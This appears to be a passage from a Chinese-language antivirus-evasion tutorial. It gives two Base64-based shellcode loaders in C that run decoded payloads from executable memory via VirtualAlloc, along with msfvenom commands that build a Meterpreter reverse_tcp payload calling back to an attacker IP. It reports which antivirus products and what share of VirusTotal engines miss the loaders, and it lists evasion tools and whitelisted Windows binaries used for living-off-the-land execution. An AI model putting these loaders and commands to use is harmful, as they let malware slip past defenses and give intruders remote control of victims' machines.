```c
/* Base64 encoder/decoder. Originally Apache file ap_base64.c
*/

#include <string.h>

#include "base64.h"

/* aaaack but it's fast and const should make it shared text page. */
static const unsigned char pr2six[256] =
{
    /* ASCII table */
    64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64,
    64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64,
    64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 62, 64, 64, 64, 63,
    52, 53, 54, 55, 56, 57, 58, 59, 60, 61, 64, 64, 64, 64, 64, 64,
    64,  0,  1,  2,  3,  4,  5,  6,  7,  8,  9, 10, 11, 12, 13, 14,
    15, 16, 17, 18, 19, 20, 21, 22, 23, 24, 25, 64, 64, 64, 64, 64,
    64, 26, 27, 28, 29, 30, 31, 32, 33, 34, 35, 36, 37, 38, 39, 40,
    41, 42, 43, 44, 45, 46, 47, 48, 49, 50, 51, 64, 64, 64, 64, 64,
    64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64,
    64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64,
    64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64,
    64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64,
    64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64,
    64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64,
    64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64,
    64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64, 64
};

int Base64decode_len(const char *bufcoded)
{
    int nbytesdecoded;
    register const unsigned char *bufin;
    register int nprbytes;

    bufin = (const unsigned char *)bufcoded;
    while (pr2six[*(bufin++)] <= 63);

    nprbytes = (bufin - (const unsigned char *)bufcoded) - 1;
    nbytesdecoded = ((nprbytes + 3) / 4) * 3;

    return nbytesdecoded + 1;
}

int Base64decode(char *bufplain, const char *bufcoded)
{
    int nbytesdecoded;
    register const unsigned char *bufin;
    register unsigned char *bufout;
    register int nprbytes;

    bufin = (const unsigned char *)bufcoded;
    while (pr2six[*(bufin++)] <= 63);
    nprbytes = (bufin - (const unsigned char *)bufcoded) - 1;
    nbytesdecoded = ((nprbytes + 3) / 4) * 3;

    bufout = (unsigned char *)bufplain;
    bufin = (const unsigned char *)bufcoded;

    while (nprbytes > 4) {
        *(bufout++) =
            (unsigned char)(pr2six[*bufin] << 2 | pr2six[bufin[1]] >> 4);
        *(bufout++) =
            (unsigned char)(pr2six[bufin[1]] << 4 | pr2six[bufin[2]] >> 2);
        *(bufout++) =
            (unsigned char)(pr2six[bufin[2]] << 6 | pr2six[bufin[3]]);
        bufin += 4;
        nprbytes -= 4;
    }

    /* Note: (nprbytes == 1) would be an error, so just ingore that case */
    if (nprbytes > 1) {
        *(bufout++) =
            (unsigned char)(pr2six[*bufin] << 2 | pr2six[bufin[1]] >> 4);
    }
    if (nprbytes > 2) {
        *(bufout++) =
            (unsigned char)(pr2six[bufin[1]] << 4 | pr2six[bufin[2]] >> 2);
    }
    if (nprbytes > 3) {
        *(bufout++) =
            (unsigned char)(pr2six[bufin[2]] << 6 | pr2six[bufin[3]]);
    }

    *(bufout++) = '\0';
    nbytesdecoded -= (4 - nprbytes) & 3;
    return nbytesdecoded;
}

static const char basis_64[] =
"ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/";

int Base64encode_len(int len)
{
    return ((len + 2) / 3 * 4) + 1;
}

int Base64encode(char *encoded, const char *string, int len)
{
    int i;
    char *p;

    p = encoded;
    for (i = 0; i < len - 2; i += 3) {
        *p++ = basis_64[(string[i] >> 2) & 0x3F];
        *p++ = basis_64[((string[i] & 0x3) << 4) |
            ((int)(string[i + 1] & 0xF0) >> 4)];
        *p++ = basis_64[((string[i + 1] & 0xF) << 2) |
            ((int)(string[i + 2] & 0xC0) >> 6)];
        *p++ = basis_64[string[i + 2] & 0x3F];
    }
    if (i < len) {
        *p++ = basis_64[(string[i] >> 2) & 0x3F];
        if (i == (len - 1)) {
            *p++ = basis_64[((string[i] & 0x3) << 4)];
            //    *p++ = '=';
        }
        else {
            *p++ = basis_64[((string[i] & 0x3) << 4) |
                ((int)(string[i + 1] & 0xF0) >> 4)];
            *p++ = basis_64[((string[i + 1] & 0xF) << 2)];
        }
        //*p++ = '=';
    }

    *p++ = '\0';
    return p - encoded;
}
```

`base64.h`文件内容：

```c
#ifndef _BASE64_H_
#define _BASE64_H_

#ifdef __cplusplus
extern "C" {
#endif

    int Base64encode_len(int len);
    int Base64encode(char * coded_dst, const char *plain_src, int len_plain_src);

    int Base64decode_len(const char * coded_src);
    int Base64decode(char * plain_dst, const char *coded_src);

#ifdef __cplusplus
}
#endif

#endif //_BASE64_H_
```

`shellcode.c`文件内容：

```c
#include <Windows.h>
#include <stdio.h>
#include <string.h>

#include "base64.h"

unsigned char buf[] =
"msf base64 code here";

// 原po代码报错，这里做了一些强制转换和类型修正
int main(int argc, const char* argv[]) {


    char str1[1000] = { 0 };
    Base64decode(str1, (char*)buf);
    LPVOID Memory;
    Memory = VirtualAlloc(NULL, sizeof(str1), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(Memory, str1, sizeof(str1));
    ((void(*)())Memory)();
    return 0;
}
```

使用msf生成base64编码的shellcode：

```
msfvenom -p  windows/meterpreter/reverse_tcp --encrypt base64  lhost=192.168.174.128 lport=6666  -f c > shell.c
```

把`shell.c`的内容复制到上面`shellcode.c`文件中。vs2019编译，关闭杀软，msf可成功上线。

打开杀软，火绒可以查杀，**360不能查杀**（原po火绒静态查杀会报毒，但行为检测没有反应，360全通过）。

virustotal.com查杀率为21/68（原po为28/69）。



### 方法8 base64加密2（VT免杀率17/67）

另外一种base64加密方式，和方法7类似，实现代码略有不同。

`base64.c`文件内容：

```c
//
//  base64.c
//  base64
//
//  Created by guofu on 2017/5/25.
//  Copyright © 2017年 guofu. All rights reserved.
//
/**
*  转解码过程
*  3 * 8 = 4 * 6; 3字节占24位, 4*6=24
*  先将要编码的转成对应的ASCII值
*  如编码: s 1 3
*  对应ASCII值为: 115 49 51
*  对应二进制为: 01110011 00110001 00110011
*  将其6个分组分4组: 011100 110011 000100 110011
*  而计算机是以8bit存储, 所以在每组的高位补两个0如下:
*  00011100 00110011 00000100 00110011对应:28 51 4 51
*  查找base64 转换表 对应 c z E z
*
*  解码
*  c z E z
*  对应ASCII值为 99 122 69 122
*  对应表base64_suffix_map的值为 28 51 4 51
*  对应二进制值为 00011100 00110011 00000100 00110011
*  依次去除每组的前两位, 再拼接成3字节
*  即: 01110011 00110001 00110011
*  对应的就是s 1 3
*/

#include "base64.h"

#include <stdio.h>
#include <stdlib.h>

// base64 转换表, 共64个
static const char base64_alphabet[] = {
    'A', 'B', 'C', 'D', 'E', 'F', 'G',
    'H', 'I', 'J', 'K', 'L', 'M', 'N',
    'O', 'P', 'Q', 'R', 'S', 'T',
    'U', 'V', 'W', 'X', 'Y', 'Z',
    'a', 'b', 'c', 'd', 'e', 'f', 'g',
    'h', 'i', 'j', 'k', 'l', 'm', 'n',
    'o', 'p', 'q', 'r', 's', 't',
    'u', 'v', 'w', 'x', 'y', 'z',
    '0', '1', '2', '3', '4', '5', '6', '7', '8', '9',
    '+', '/' };

// 解码时使用
static const unsigned char base64_suffix_map[256] = {
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 253, 255,
    255, 253, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 253, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255,  62, 255, 255, 255,  63,
    52,  53,  54,  55,  56,  57,  58,  59,  60,  61, 255, 255,
    255, 254, 255, 255, 255,   0,   1,   2,   3,   4,   5,   6,
    7,   8,   9,  10,  11,  12,  13,  14,  15,  16,  17,  18,
    19,  20,  21,  22,  23,  24,  25, 255, 255, 255, 255, 255,
    255,  26,  27,  28,  29,  30,  31,  32,  33,  34,  35,  36,
    37,  38,  39,  40,  41,  42,  43,  44,  45,  46,  47,  48,
    49,  50,  51, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255 };

static char cmove_bits(unsigned char src, unsigned lnum, unsigned rnum) {
    src <<= lnum; // src = src << lnum;
    src >>= rnum; // src = src >> rnum;
    return src;
}

int base64_encode(const char *indata, int inlen, char *outdata, int *outlen) {

    int ret = 0; // return value
    if (indata == NULL || inlen == 0) {
        return ret = -1;
    }

    int in_len = 0; // 源字符串长度, 如果in_len不是3的倍数, 那么需要补成3的倍数
    int pad_num = 0; // 需要补齐的字符个数, 这样只有2, 1, 0(0的话不需要拼接, )
    if (inlen % 3 != 0) {
        pad_num = 3 - inlen % 3;
    }
    in_len = inlen + pad_num; // 拼接后的长度, 实际编码需要的长度(3的倍数)

    int out_len = in_len * 8 / 6; // 编码后的长度

    char *p = outdata; // 定义指针指向传出data的首地址

                       //编码, 长度为调整后的长度, 3字节一组
    for (int i = 0; i < in_len; i += 3) {
        int value = *indata >> 2; // 将indata第一个字符向右移动2bit(丢弃2bit)
        char c = base64_alphabet[value]; // 对应base64转换表的字符
        *p = c; // 将对应字符(编码后字符)赋值给outdata第一字节

                //处理最后一组(最后3字节)的数据
        if (i == inlen + pad_num - 3 && pad_num != 0) {
            if (pad_num == 1) {
                *(p + 1) = base64_alphabet[(int)(cmove_bits(*indata, 6, 2) + cmove_bits(*(indata + 1), 0, 4))];
                *(p + 2) = base64_alphabet[(int)cmove_bits(*(indata + 1), 4, 2)];
                *(p + 3) = '=';
            }
            else if (pad_num == 2) { // 编码后的数据要补两个 '='
                *(p + 1) = base64_alphabet[(int)cmove_bits(*indata, 6, 2)];
                *(p + 2) = '=';
                *(p + 3) = '=';
            }
        }
        else { // 处理正常的3字节的数据
            *(p + 1) = base64_alphabet[cmove_bits(*indata, 6, 2) + cmove_bits(*(indata + 1), 0, 4)];
            *(p + 2) = base64_alphabet[cmove_bits(*(indata + 1), 4, 2) + cmove_bits(*(indata + 2), 0, 6)];
            *(p + 3) = base64_alphabet[*(indata + 2) & 0x3f];
        }

        p += 4;
        indata += 3;
    }

    if (outlen != NULL) {
        *outlen = out_len;
    }

    return ret;
}


int base64_decode(const char *indata, int inlen, char *outdata) {

    int ret = 0;
    if (indata == NULL || inlen <= 0 || outdata == NULL ) {
        return ret = -1;
    }
    if (inlen % 4 != 0) { // 需要解码的数据不是4字节倍数
        return ret = -2;
    }

    int t = 0, x = 0, y = 0, i = 0;
    unsigned char c = 0;
    int g = 3;

    while (indata[x] != 0) {
        // 需要解码的数据对应的ASCII值对应base64_suffix_map的值
        c = base64_suffix_map[indata[x++]];
        if (c == 255) return -1;// 对应的值不在转码表中
        if (c == 253) continue;// 对应的值是换行或者回车
        if (c == 254) { c = 0; g--; }// 对应的值是'='
        t = (t << 6) | c; // 将其依次放入一个int型中占3字节
        if (++y == 4) {
            outdata[i++] = (unsigned char)((t >> 16) & 0xff);
            if (g > 1) outdata[i++] = (unsigned char)((t >> 8) & 0xff);
            if (g > 2) outdata[i++] = (unsigned char)(t & 0xff);
            y = t = 0;
        }
    }

    return ret;
}
```

`base64.h`文件内容：

```c
#ifndef base64_h
#define base64_h

#include <stdio.h>

#if __cplusplus
extern "C" {
#endif

    int base64_encode(const char *indata, int inlen, char *outdata, int *outlen);
    int base64_decode(const char *indata, int inlen, char *outdata);

#if __cplusplus
}
#endif

#endif /* base64_h */
```

`shellcode.c`文件内容：

```c
#include <stdio.h>
#include <string.h>
#include <Windows.h>

#include "base64.h"

unsigned char buf[] =
"msf base64 code";

int main(int argc, const char * argv[]) {


    char str3[1000] = { 0 };

    // 原po代码报错，这里做了一些强制转换和类型修正
    base64_decode(buf, (int)strlen(buf), str3);

    char *Memory;

    Memory = VirtualAlloc(NULL, sizeof(str3), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    memcpy(Memory, str3, sizeof(str3));

    ((void(*)())Memory)();

    return 0;
}
```

使用msf生成base64编码的shellcode：

```
msfvenom -p  windows/meterpreter/reverse_tcp --encrypt base64  lhost=192.168.174.128 lport=6666  -f c > shell.c
```

把`shell.c`的内容复制到上面`shellcode.c`文件中。vs2019编译，关闭杀软，msf可成功上线。

打开杀软，火绒可以查杀，**360不能查杀**。

virustotal.com上查杀率为17/67（原po为28/69）。


## 总结

与2020年相比，2022年卷了很多。纵览360和火绒就能直观感受到，确实杀软能力越来越强了。2020年可以Bypass卡巴斯基、McAfee、Symantec等杀软的方法，2022年均失效。

免杀操作层出不穷，特别是近两年也有很多新的优秀项目。本文仅为最基本的免杀方式，前路漫漫，还有很多要学习的，共勉。

一些知识点：

- 常见免杀工具（21种）：msf自免杀、Veil、Venom、Shellter、BackDoor-Factory、Avet、TheFatRat、Avoidz、Green-Hat-Suite、zirikatu、AVIator、DKMC、Unicorn、Python-Rootkit、DKMC、Unicorn、Python-Rootkit、ASWCrypter、nps_payload、GreatSCT、HERCULES、SpookFlare、SharpShooter、CACTUSTORCH、Winpayload等。
- 常见免杀编程语言：C/C++、C#、python、powershell、ruby、go等。
- 常见免杀白名单程序（113个）：Rundll32.exe、Msiexec.exe、MSBuild.exe、InstallUtil.exe、Mshta.exe、Regsvr32.exe、Cmstp.exe、CScript.exe、WScript.exe、Forfiles.exe、te.exe、Odbcconf.exe、InfDefaultInstall.exe、Diskshadow.exe、PsExec.exe、Msdeploy.exe、Winword.exe、Regasm.exe、Regsvcs.exe、Ftp.exe、pubprn.vbs、winrm.vbs、slmgr.vbs、Xwizard.exe、Compiler.exe、IEExec.exe、MavInject32、Presentationhost.exe、Wmic.exe、Pcalua.exe、Url.dll、zipfldr.dll、Syncappvpublishingserver.vbs等。

## 参考链接

- BypassAntiVirus：远控免杀系列文章 https://github.com/TideSec/BypassAntiVirus
- AntivirusScanner：杀软进程检测脚本 https://github.com/Threekiii/Awesome-Redteam/tree/master/scripts/AntivirusScanner